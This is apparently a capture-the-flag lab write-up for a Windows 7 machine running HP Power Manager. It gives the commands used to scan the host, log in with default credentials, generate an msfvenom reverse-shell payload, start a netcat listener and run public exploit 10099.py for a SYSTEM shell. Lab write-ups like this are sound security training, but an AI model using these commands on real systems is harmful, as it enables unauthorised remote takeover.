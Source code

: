 # Kevin - Windows 7 Exploitation Walkthrough

This is a full exploitation walkthrough for the **Kevin** lab machine running Windows 7 Ultimate. The objective was to gain SYSTEM-level access by exploiting a vulnerable web application and capturing the administrator flag.

---

## Target Information

**IP Address:** 192.168.232.45  
**Operating System:** Windows 7 Ultimate N  
**Hostname:** KEVIN  
**Workgroup:** WORKGROUP  
**Exposed Application:** HP Power Manager (GoAhead WebServer)

---

## Enumeration

Performed an initial Nmap scan:

```bash
nmap -T4 -A 192.168.232.45 -oN nmap
Identified ports:

80 (HTTP - HP Power Manager)

135 (RPC)

139, 445 (SMB)

3389 (RDP)

49152–49159 (MSRPC dynamic ports)

Navigated to: http://192.168.232.45
Observed HP Power Manager login page.

Default credentials used:

Username: admin

Password: admin

Exploitation - HP Power Manager RCE
Searched for known exploits using Searchsploit:

bash
Copy
Edit
searchsploit HP Power Manager
searchsploit -m 10099.py
Confirmed vulnerability: CVE-2009-2685 — Remote Code Execution via formExportData.php.

Reverse Shell Payload
Generated a reverse shell payload using msfvenom:

bash
Copy
Edit
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.158 LPORT=80 \
-b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" \
-e x86/alpha_mixed -f c
Inserted the payload into the SHELL variable inside the 10099.py exploit script.

Gaining Shell Access
Started a Netcat listener:

bash
Copy
Edit
rlwrap nc -nlvp 80
Executed the exploit:

bash
Copy
Edit
python2.7 10099.py 192.168.232.45
Received a reverse shell as:

sql
Copy
Edit
NT AUTHORITY\SYSTEM
Captured Flag
Navigated to:

makefile
Copy
Edit
C:\Users\Administrator\Desktop\proof.txt
Flag:

nginx
Copy
Edit
f9267403b0baf51ae5c66c6d55fd72de
Tools Used
nmap

searchsploit

msfvenom

python2.7

netcat (nc)

rlwrap

Summary
Performed reconnaissance to discover running services

Logged into HP Power Manager using default credentials

Exploited RCE vulnerability (CVE-2009-2685)

Gained SYSTEM-level reverse shell

Captured the final flag from Administrator’s desktop

Author
Farhanahmad Quraishi
